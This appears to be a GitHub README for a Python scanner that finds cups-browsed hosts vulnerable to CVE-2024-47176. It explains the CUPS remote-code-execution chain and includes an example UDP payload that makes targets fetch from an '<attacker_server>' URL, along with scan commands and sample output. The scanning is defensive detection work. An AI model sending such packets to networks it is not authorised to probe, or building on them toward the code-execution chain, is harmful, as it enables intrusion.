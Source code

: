 # Quick Start
Example usage: `python3 cups_scanner.py --targets 10.0.0.0/24 --callback 10.0.0.1:1337`

# CVE-2024-47176 Vulnerability Scanner (cups-browsed)

## What is CUPS And Why Does It Matter?
CUPS (Common Unix Printing System) is an open-source framework for managing and controlling printers on UNIX and UNIX-like systems.
It is one of the most used widely-used libraries for printing and is supported by UNIX, Linux, and some Apple devices.
 
Several critical vulnerabilities were found in CUPS, which when chained together, can lead to remote code execution.
The CVEs in question are CVE-2024-47176, CVE-2024-47076, CVE-2024-47175, CVE-2024-47177.

The vulnerabilities allow a remote attacker to add or re-configure network printers in such a way that they will execute arbitrary code when users try to print from them.

# Scanning for Vulnerable CUPS Systems
## A Quick Overview of CVE-2024-47176
The first vulnerability in the chain, CVE-2024-47176, is a flaw in the cups-browsed daemon.

The vulnerability arises from the fact that cups-browsed binds its control port (UDP port 631) to INADDR_ANY, exposing it to the world.
Since requests are not authenticated, anyone capable of reaching the control port can instruct cups-browsed to perform printer discovered.

In cases when the port is not reachable from the internet (due to firewalls or NAT), it may still be reachable via the local network, enabling privilege escalation and lateral movement.
For this reason, I've created this scanner designed to scan your local network for vulnerable cups-browsed instances.

## How CVE-2024-47176 Scanning Works
Typically, an attacker would begin the exploitation process by sending a specially crafted request to cups-browsed on UDP port 631, causing it to reach out to a malicious URL under their control.

For example, a UDP packet containing the following: `0 3 http://<attacker_server>/printers/malicious_printer` would trigger cups-browsed to issue a HTTP request to `http://<attacker_server>/printers/malicious_printer`.

If the URL were to present as a malicious printer, it could chain the rest of the CVEs in order to gain remote code execution.

Using this mechanism, we can trigger a vulnerable cups-browsed instance to issue a HTTP request (callback) to our own server, identifying itself as vulnerable.

The scanning process is as follows:
1. Set up a basic HTTP server (no need to identify as a printer, since we will not be exploiting the RCE vulnerability).
2. Craft a UDP packet which will instruct cups-browsed to connect to our HTTP server.
3. Send the UDP packet to every IP in a give range on port 631.
4. Log any POST requests to the `/printers/` endpoint, which are triggered by vulnerable cups-browsed instances.

Assuming our HTTP server is hosted on `10.0.0.1:1337`, our UDP packet should look like this: `0 3 http://10.0.0.1:1337/printers/test1234`

# Automating Scans with cups_scanner.py
This python scanner handles everything for you (both the HTTP server and scanning).

The script launches a temporary HTTP server via http.server on a specified ip and port, then constructs and sends UDP packets to the every IP in the specified range.
The HTTP server will automatically capture callbacks from vulnerable cups-browsed instances and log them to disk.
 
User friendly logs are written `logs/cups.log` and raw HTTP requests are written to `logs/requests.log`

## command line arguments
`--target` 
the CIDR(s) to scan. Can be a single CIDR or multiple CIDRs separated by commas.  
`--callback` the local ip and port to host our HTTP server on (must be reachable via the target range)  
`--scan-unsafe` by default we only scan assignable host addresses (we exclude the network address and broadcast address)
in some cases it may be desirable to scan these addresses, so this behavior can be overridden with the --scan-unsafe flag.

## Example Usage
**Scanning CIDR `10.0.0.0/24` from ip address `10.0.0.1`, hosting the callback server on `1337`:**  
`python3 cups_scanner.py --targets 10.0.0.0/24 --callback 10.0.0.1:1337`

**Scanning multiple CIDRs from ip address `10.0.0.1`, hosting the callback server on `1337`:**  
`python3 cups_scanner.py --targets 10.0.0.0/24,10.0.1.0/24 --callback 10.0.0.1:1337`

note: the callback server IP must belong to the scanning host, and the port must be reachable from every target IPs.

## Example Output
```bash
<root@haxx> python3 cups_scanner.py --targets 10.0.0.0/24 --callback 10.0.0.0.1:1337
[2024-10-06 21:57:09] starting callback server on 10.0.0.1:1337
[2024-10-06 21:57:14] callback server running on port 10.0.0.1:1337...
[2024-10-06 21:57:14] starting scan
[2024-10-06 21:57:14] scanning range: 10.0.0.1 - 10.0.0.254
[2024-10-06 21:57:14] scan done, use CTRL + C to callback stop server
[2024-10-06 21:57:14] received callback from vulnerable device: 10.0.0.22 - CUPS/2.4.10 (Linux 5.10.0-kali7-amd64; x86_64) IPP/2.0
[2024-10-06 21:57:14] received callback from vulnerable device: 10.0.0.25 - CUPS/2.4.10 (Linux 5.10.0-kali7-amd64; x86_64) IPP/2.0
[2024-10-06 21:57:17] shutting down server and exiting...
```

for more info see: [Official CUPS Vulnerability Write Up](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/)